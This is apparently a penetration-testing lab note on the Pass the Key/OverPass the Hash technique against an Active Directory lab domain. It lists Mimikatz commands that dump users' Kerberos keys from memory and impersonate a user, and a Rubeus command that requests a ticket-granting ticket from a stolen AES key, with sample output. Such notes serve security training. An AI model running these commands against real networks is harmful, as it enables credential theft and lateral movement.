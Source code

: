 ## Pass the Key/OverPass the Hash
- Converts a hash/key for a domain-joined user into a full TGT.
- Requires user's hash

##### 1. Use Mimikatz to Extract All Users' Kerberos Keys
`mimikatz.exe`
`privilege::debug`
`sekurlsa::ekeys`

Output:
```cmd
Authentication Id : 0 ; 444066 (00000000:0006c6a2)
Session           : Interactive from 1
User Name         : plaintext
Domain            : HTB
Logon Server      : DC01
Logon Time        : 7/12/2022 9:42:15 AM
SID               : S-1-5-21-228825152-3134732153-3833540767-1107

         * Username : plaintext
         * Domain   : inlanefreight.htb
         * Password : (null)
         * Key List :
           aes256_hmac       b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60
           rc4_hmac_nt       3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old      3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_md4           3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_nt_exp   3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old_exp  3f74aa8f08f712f09cd5177b5c1ce50f
```

Now we have access to the ==AES256_HMAC and RC4_HMAC== keys, which we can abuse with mimikatz and Rubeus.

##### 2. Mimikatz - Pass the Key/OverPass the Hash
`mimikatz.exe`
`privilege::debug`
`sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f`

This will spawn a cmd.exe window as the user "plaintext".

##### 2. Rubeus - Pass the Key/OverPass the Hash
Input:
```cmd-session
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```
 
Output:
```cmd-session
doIE1jCCBNKgAwIBBaEDA...

  ServiceName           :  krbtgt/inlanefreight.htb
  ServiceRealm          :  inlanefreight.htb
  UserName              :  plaintext
  UserRealm             :  inlanefreight.htb
  StartTime             :  7/12/2022 11:28:26 AM
  EndTime               :  7/12/2022 9:28:26 PM
  RenewTill             :  7/19/2022 11:28:26 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  0TOKzUHdgBQKMk8+xmOV2w==
```
